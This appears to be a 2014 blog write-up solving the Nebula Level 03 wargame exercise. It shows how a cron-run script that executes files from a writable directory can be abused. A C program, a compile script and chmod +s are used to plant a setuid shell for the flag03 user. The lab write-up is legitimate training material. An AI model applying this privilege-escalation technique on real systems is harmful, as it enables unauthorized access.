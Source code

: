 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 03"
date: 2014-01-09 17:03:25 +0800
comments: true
categories: 
- Security
- Exercises
- Nebula
---
```


### About
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03 . Files for this level can be found in /home/flag03.

<!-- more -->

### Solution

No source code is available for this level, but there is a shell script in the home directory of user flag03

``` sh writable.sh
#!/bin/sh
for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script would be executed periodly by cron, after I have finished this level, I logged in with the admin account and get the content of the corresponding crontab file

``` sh /var/spool/cron/crontabs/flag03
*/3 * * * * /home/flag03/writable.sh
```

For the meaning of this crontab file, please refer to the [Cron Wiki](https://wiki.archlinux.org/index.php/cron) of Archlinux.

Back to the script located in */home/flag03*, this script does the following things

1. limits the use cpu time to be 5s
2. iterately executes all the executable files in directory */home/flag03/writable.d/*
3. delete these executables after executing

This crontab runs in user *flag03*, we could leverage it to do something interesting, like changing the home directory of user *flag03* to be public readable and writable, but what we need is beyond this. 

It is easy to find a way to get the privilege of user *flag03* after all we have read in the previous exercises. So I wrote the following code in C

``` c flag03.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main() {
	setresuid(996, 996, 996);
	system("/bin/bash");
}
``` 

The uid 996 is got by reading */etc/passwd*

``` c
flag03:x:996:996::/home/flag03:/bin/sh
```

What I need now is to make user *flag03* compile this C code into an executable that could be run by *level04* and the set-user-ID bit is set. So I wrote the following script 

``` sh compile
gcc -o /home/flag03/flag03 /home/level03/flag03.c
chmod 777 /home/flag03/flag03
chmod +s /home/flag03/flag03
```

To make the file */home/level03/flag03.c* readable by user flag03, I changed the permission of my home directory

``` bash
$ chmod a+rx /home/level03
```

Now, place the compile script into */home/flag03/writable.d", and wait patiently for the execution of crontab. After this script is called, I got an executable in */home/flag03* to help me get the privilege of user *flag03* :)